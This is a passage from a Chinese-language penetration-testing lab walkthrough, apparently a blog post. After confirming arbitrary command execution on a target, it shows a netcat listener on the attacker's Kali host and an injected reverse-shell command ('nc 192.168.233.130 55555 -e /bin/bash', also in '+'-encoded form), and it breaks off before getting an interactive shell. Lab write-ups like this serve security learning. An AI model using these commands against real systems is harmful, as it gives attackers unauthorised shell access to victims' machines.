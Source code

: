 
<img src="https://img-blog.csdnimg.cn/ac893645de04453ab7b287a444b6d51c.png" alt="在这里插入图片描述">

>  
 由上面的测试可知确实存在任意命令执行，空格由+代替 


### 8、反弹shell到kali

#### 1.攻击机监听

```
nc -lvvp 55555

```

>  
 Nc反弹shell详解在文末给出链接 


<img src="https://img-blog.csdnimg.cn/fbb913ded85e4d45a0c2b21cf44ad976.png" alt="在这里插入图片描述">

#### 2.靶机连接

>  
 连接命令 


```
nc 192.168.233.130 55555 -e /bin/bash 

```

>  
 经过+拼接如下 


```
nc+192.168.233.130+55555+-e+/bin/bash

```

<img src="https://img-blog.csdnimg.cn/60714b8a9cf24d8db9aedb944e7a40bc.png" alt="在这里插入图片描述">

#### 3.反弹shell成功

<img src="https://img-blog.csdnimg.cn/00e8c6f4f1db4595aadde94bb3bd9f91.png" alt="在这里插入图片描述">

>  
 执行ls 


<img src="https://img-blog.csdnimg.cn/f9f2ca4a7c63440dab14190c7cc1e7ed.png" alt="在这里插入图片描述">

### 9、进入交互式shell

>  
 都知道上面的到的shell不好用，我们进入交互式shell 
